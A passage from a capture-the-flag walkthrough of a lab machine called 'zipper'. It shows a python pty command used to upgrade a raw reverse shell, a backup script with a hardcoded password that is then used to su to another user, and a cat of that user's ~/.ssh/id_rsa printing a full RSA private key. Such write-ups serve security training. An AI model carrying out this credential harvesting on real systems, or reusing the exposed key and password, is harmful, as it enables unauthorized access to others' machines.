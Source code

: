 However, this is still just a raw TCP connection and I need to elevate to a TTY shel.

**Obtaining TTY Shell**

To elevate the raw TCP socket I referenced this site [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). `python3 -c 'import pty; pty.spawn("/bin/sh")'` With this elevated shell I able to access commands like `su` and `ssh`.

**Unsafely Stored Login Credentials for User**

Enumerating the home directory yields only one user:

```bash
drwxr-xr-x  6 zapper zapper 4096 Sep  9 19:12 zapper
```

Using the previously obtained passwords for the `zapper` user but this does not work. Continuing to enumerate I locate a bash script, `backup.sh` and looking inside:

```bash
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah
/home/zapper/utils/* &>/dev/null
echo$?
```

Inside the script we see another password, `ZippityDoDah` and this gives me access to the `zapper` user.

```bash
su zapper
Password: ZippityDoDah
```

Exploring the home directory there is a private key stored in `~/.shh`.

```bash
zapper@zipper:~/.ssh$ cat id_rsa
```

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzU9krR2wCgTrEOJY+dqbPKlfgTDDlAeJo65Qfn+39Ep0zLpR
l3C9cWG9WwbBlBInQM9beD3HlwLvhm9kL5s55PIt/fZnyHjYYkmpVKBnAUnPYh67
GtTbPQUmU3Lukt5KV3nf18iZvQe0v/YKRA6Fx8+Gcs/dgYBmnV13DV8uSTqDA3T+
eBy7hzXoxW1sInXFgKizCEXbe83vPIUa12o0F5aZnfqM53MEMcQxliTiG2F5Gx9M
2dgERDs5ogKGBv4PkgMYDPzXRoHnktSaGVsdhYNSxjNbqE/PZFOYBq7wYIlv/QPi
eBTz7Qh0NNR1JCAvM9MuqGURGJJzwdaO4IJJWQIDAQABAoIBAQDIu7MnPzt60Ewz
+docj4vvx3nFCjRuauA71JaG18C3bIS+FfzoICZY0MMeWICzkPwn9ZTs/xpBn3Eo
84f0s8PrAI3PHDdkXiLSFksknp+XNt84g+tT1IF2K67JMDnqBsSQumwMwejuVLZ4
aMqot7o9Hb3KS0m68BtkCJn5zPGoTXizTuhA8Mm35TovXC+djYwgDsCPD9fHsajh
UKmIIhpmmCbHHKmMtSy+P9jk1RYbpJTBIi34GyLruXHhl8EehJuBpATZH34KBIKa
8QBB1nGO+J4lJKeZuW3vOI7+nK3RqRrdo+jCZ6B3mF9a037jacHxHZasaK3eYmgP
rTkd2quxAoGBAOat8gnWc8RPVHsrx5uO1bgVukwA4UOgRXAyDnzOrDCkcZ96aReV
UIq7XkWbjgt7VjJIIbaPeS6wmRRj2lSMBwf1DqZIHDyFlDbrGqZkcRv76/q15Tt0
oTn4x8SRZ8wdTeSeNRE3c5aFgz+r6cklNwKzMNuiUzcOoR8NSVOJPqJzAoGBAOPY
ks9+AJAjUTUCUF5KF4UTwl9NhBzGCHAiegagc5iAgqcCM7oZAfKBS3oD9lAwnRX+
zH84g+XuCVxJCJaE7iLeJLJ4vg6P43Wv+WJEnuGylvzquPzoAflYyl3rx0qwCSNe
8MyoGxzgSRrTFtYodXtXY5FTY3UrnRXLr+Q3TZYDAoGBALU/NO5/3mP/RMymYGac
OtYx1DfFdTkyY3y9B98OcAKkIlaA0rPh8O+gOnkMuPXSia5mOH79ieSigxSfRDur
7hZVeJY0EGOJPSRNY5obTzgCn65UXvFxOQCYtTWAXgLlf39Cw0VswVgiPTa4967A
m9F2Q8w+ZY3b48LHKLcHHfx7AoGATOqTxRAYSJBjna2GTA5fGkGtYFbevofr2U8K
Oqp324emk5Keu7gtfBxBypMD19ZRcVdu2ZPOkxRkfI77IzUE3yh24vj30BqrAtPB
MHdR24daiU8D2/zGjdJ3nnU19fSvYQ1v5ObrIDhm9XNFRk6qOlUp+6lW7fsnMHBu
lHBG9NkCgYEAhqEr2L1YpAW3ol8uz1tEgPdhAjsN4rY2xPAuSXGXXIRS6PCY8zDk
WaPGjnJjg9NfK2zYJqI2FN+8Yyfe62G87XcY7ph8kpe0d6HdVcMFE4IJ8iKCemNE
Yh/DOMIBUavqTcX/RVve0rEkS8pErQqYgHLHqcsRUGJlJ6FSyUPwjnQ=
-----END RSA PRIVATE KEY-----
```